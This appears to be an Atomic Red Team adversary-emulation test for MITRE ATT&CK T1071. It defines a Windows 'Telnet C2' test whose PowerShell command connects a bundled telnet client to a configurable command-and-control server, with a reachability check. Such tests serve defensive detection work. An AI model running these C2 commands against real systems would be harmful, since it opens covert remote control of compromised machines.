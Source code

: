 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1071)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server. 

Adversaries may utilize many different protocols, including those used for web browsing, transferring files, electronic mail, or DNS. For connections that occur internally within an enclave (such as those between a proxy or pivot node and other nodes), commonly used protocols are SMB, SSH, or RDP. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---telnet-c2)


<br/>

## Atomic Test #1 - Telnet C2
An adversary may establish telnet communication from compromised endpoint to command and control (C2) server to be able to operate more attack on objectives.

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | 127.0.0.1|
| client_path | Client agent path | path | PathToAtomicsFolder&#92;T1071&#92;bin&#92;telnet_client.exe|
| server_port | C2 server port | integer | 23|


#### Attack Commands: Run with `powershell`! 


```powershell
#{client_path} #{server_ip} --port #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: Command and Control (C2) server cam be established by running PathToAtomicsFolder\T1071\bin\telnet_server.exe on specified server with specified IP that must be reachable by client (telnet_client.exe)
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}
if ($connection.TcpTestSucceeded) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Write-Host "Setup C2 server manually"
```




<br/>
